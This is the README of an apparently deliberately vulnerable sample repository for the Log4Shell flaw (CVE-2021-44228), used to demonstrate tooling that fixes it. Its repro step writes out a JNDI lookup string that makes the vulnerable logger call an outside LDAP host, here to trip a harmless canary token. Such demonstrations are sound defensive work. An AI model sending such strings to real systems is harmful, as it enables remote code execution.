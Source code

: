 # sample-vulnerable-log4j-direct-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).

## Related repositories

The following repositories are used to demonstrate Sourcegraph functionality related to fixing [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228):

- https://github.com/sgtest/sample-vulnerable-log4j-direct-app
- https://github.com/sgtest/sample-vulnerable-log4j-direct-lib
- https://github.com/sgtest/sample-vulnerable-log4j-indirect-app